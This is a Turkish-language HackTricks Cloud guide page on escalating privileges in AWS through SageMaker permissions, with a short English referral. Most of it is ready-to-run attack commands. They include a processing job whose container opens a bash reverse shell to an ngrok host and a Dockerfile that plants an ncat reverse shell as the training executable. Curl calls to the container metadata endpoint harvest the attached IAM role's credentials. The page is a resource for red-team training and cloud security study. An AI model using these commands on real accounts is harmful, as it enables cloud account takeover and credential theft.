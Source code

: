 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Bağlı olduğu IAM Rolü ile bir not defteri oluşturmaya başlayın:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Yanıt, yeni oluşturulan defter örneğinin ARN'sini içerecek `NotebookInstanceArn` alanını içermelidir. Ardından, defter örneğine erişmek için hazır olduğunda kullanabileceğimiz bir URL oluşturmak için `create-presigned-notebook-instance-url` API'sini kullanabiliriz:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Tarayıcı ile URL'ye gidin ve sağ üstteki \`Open JupyterLab\`\` butonuna tıklayın, ardından “Launcher” sekmesine kaydırın ve “Other” bölümünde “Terminal” butonuna tıklayın.

Artık IAM Rolünün metadata kimlik bilgilerine erişmek mümkündür.

**Olası Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Eğer üzerinde Jupyter **notebook'ları zaten çalışıyorsa** ve bunları `sagemaker:ListNotebookInstances` ile listeleyebiliyorsanız (veya başka bir şekilde keşfedebiliyorsanız). Onlar için **bir URL oluşturabilir, erişebilir ve önceki teknikte belirtildiği gibi kimlik bilgilerini çalabilirsiniz**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Olası Etki:** Bağlı olan sagemaker hizmet rolüne privesc.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Bu izinlere sahip bir saldırgan, **sagemaker'ın bir processingjob** yürütmesini sağlayabilir ve buna bağlı bir sagemaker rolü ekleyebilir. Saldırgan, **AWS yönetimli ECS hesap örneğinde** çalıştırılacak konteynerin tanımını belirtebilir ve **bağlı IAM rolünün kimlik bilgilerini çalabilir**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Olası Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, **üzerinde bir rol eklenmiş** **rastgele bir konteyner** çalıştırarak bir eğitim işi oluşturabilecektir. Bu nedenle, saldırgan rolün kimlik bilgilerini çalabilecektir.

{% hint style="warning" %}
Bu senaryo, önceki senaryodan daha zor istismar edilebilir çünkü rev shell veya kimlik bilgilerini doğrudan saldırgana gönderecek bir Docker imajı oluşturmanız gerekiyor (eğitim işinin yapılandırmasında bir başlangıç komutu belirtemezsiniz).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, **bir hiperparametre eğitim işi** oluşturma yeteneğine (potansiyel olarak) sahip olacak, üzerinde **rol eklenmiş** **rastgele bir konteyner** çalıştırabilecektir.\
&#xNAN;_&#x49; zaman eksikliği nedeniyle istismar etmedim, ancak önceki istismarlarla benzer görünüyor, istismar detaylarıyla bir PR göndermekten çekinmeyin._

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}

